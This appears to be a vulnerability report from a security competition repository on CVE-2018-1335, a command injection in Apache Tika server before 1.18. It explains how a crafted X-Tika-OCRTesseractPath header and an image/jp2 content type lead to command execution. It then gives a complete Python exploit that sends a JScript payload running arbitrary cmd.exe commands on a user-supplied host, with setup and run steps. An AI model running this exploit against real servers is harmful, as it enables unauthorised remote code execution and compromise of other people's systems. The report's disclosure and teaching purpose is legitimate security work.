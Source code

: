 <div align="center"><h1>CVE-2018-1335 REPORT</h1></div>

## About the vulnerability

This vulnerability leads to command injection vulnerability in Apache Tika server uses Cscript.exe to execute Jscript or VBS code and run arbitary commands.

**On versions:** Apache Tika server <1.18

**Pre-requisites:** No pre-requisites. Run the Tika server in its default configuration.

## Explanation
The entry point for this vulnerability is HTTP request header. To exploit this vulnerability, we need to pass the arguments in through HTTP request to `processHeaderConfig` function. This function sets the properties of the `TesseractORConfig` object.

The `doOCR` function in `TesseractORConfig.java` passes the config properties from the `TesseractORConfig` object, directly into an array of strings and it is further used to construct command for `ProcessBuilder`.

When we pass our command in the header as `X-Tika-OCRTesseractPath: <some command>`, the command is inserted into the cmd string but is unable to execute becuase of the prepending of some uncontrolable strings. To bypass this, we have to wrap our command in double quotes. This would result in windows ignoring whatever is appended to it after the qoutes. This would result in execution of our injected command.

`OCR` is used for pulling text and content out of the images and that's why we used image as our content-type so that we can reach the `doOCR` function.
The only way through which we can make Tika accept our command without embedding them into an image and then uploading that image is by setting the `Content-type` to `image/jp2`. This particular thing forces Tika to not check magic bytes of the image and allows the image to process through OCR. This resulted in the successful upload of our "image" file containing VBScript. We are able to successfully exploit the vulnerability.

## Exploit
```
#!/usr/bin/python

import requests

host = input("=> Target website/IP address = ")
port = input("=> Port number = ")
command = input("=> Command = ")

url = "http://"+host+':'+port+'/meta'

header = {"X-Tika-OCRTesseractPath": "\"cscript\"", "X-Tika-OCRLanguage": "//E:Jscript", "Content-type": "image/jp2"}

script = '''WScript.CreateObject("WScript.Shell").Run("cmd.exe /k %s")'''%command

requests.put(url, headers=header, data = script)
```
[Exploit code link](https://github.com/Milind712000/INTERIIT21_SAPTANG/blob/main/chall4/exploit_CVE_2018_1335.py)

Exploit was tested on Apache Tika 1.17 with Java version 1.7.0_80

### How to Run

#### Installing a python virtual environment
```bash
$ python3 -m venv env

$ source env/bin/activate
```
#### Adding the python dependencies

```bash
$ pip3 install requests
```

#### Running the exploit
```bash
$ python3 exploit_CVE_2018_1335.py
```

## Proof Of Concept (PoC)

[PoC video link](https://youtu.be/gDetAKkIXgs)